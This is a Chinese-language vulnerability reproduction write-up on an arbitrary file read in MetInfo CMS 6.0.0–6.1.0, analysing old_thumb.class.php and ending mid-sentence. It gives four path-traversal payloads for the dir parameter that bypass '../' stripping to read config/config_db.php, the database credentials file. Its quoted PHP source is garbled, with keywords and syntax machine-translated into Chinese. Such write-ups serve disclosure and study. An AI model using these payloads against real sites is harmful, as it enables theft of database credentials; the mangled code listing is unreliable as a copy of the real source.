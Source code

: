 MetInfo 任意文件读取
====================

一、漏洞简介
------------

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo
6.0.0\~6.1.0版本中的
old\_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

二、漏洞影响
------------

MetInfo 6.0.0 MetInfo 6.1.0

三、复现过程
------------

### 漏洞分析

进攻分析
看下\\MetInfo6\\app\\system\\include\\module\\old\_thumb.class.php

    <？php 
    ＃MetInfo企业内容管理系统
    ＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

    define（'IN_MET'）或 退出（'No权限'）;

    load :: sys_class（'web'）;

    class  old_thumb  扩展了 网络 {

          公共 功能 doshow （） { 全局 $ _M;


            $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;


            if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
                header（“ Content-type：image / jpeg”）; 
                ob_start（）; 
                readfile（$ dir）; 
                ob_flush（）; 
                flush（）; 死 ;         }



            if（$ _M [ 'form' ] [ 'pageset' ]）{ 
              $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

            } else { 
              $ path = $ dir; 
            } 
            $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;









                readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
                ob_flush（）; 
                flush（）; 
            }

        } 
    }

    ＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
    ＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
    ？>

从代码中看用看到，\$dir直接由\$\_GET\[\'dir\'\]传递进来，并将../置空。目标是进入到第一个，如果里面的readfile(\$dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断\$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，\$dir中必须包含http字符串。里面的将\$dir中包含\$\_M\[\'url\'\]\[\'site\'\]的部分放置空，这里可以不用管。

![](./.resource/Metinfo任意文件读取/media/rId25.png)

从上面的分析可以构造出有效负载，只要\$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用\..././来进行目录替换，因为../会被置空，所以最终payload如下

    ?dir=..././http/..././config/config_db.php
    ?dir=.....///http/.....///config/config_db.php
    ?dir=http/.....///.....///config/config_db.php
    ?dir=http\..\..\config\config_db.php

### 漏洞复现

要先找到调用old\_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old\_thumb.class.php

    <?php
    # MetInfo Enterprise Content Management System
    # Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
    define('M_NAME', 'include');
    define('M_MODULE', 'include');
    define('M_CLASS', 'old_thumb');
    define('M_ACTION', 'doshow');
    require_once '../app/system/entrance.php';
    # This program is an open source system, commercial use, please consciously to purchase commercial license.
    # Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
    ?>

所以我们通过thumb.php将构造好的\$dir传入即可。

![](./.resource/Metinfo任意文件读取/media/rId27.png)

可以看到成功的读取到了config/config\_
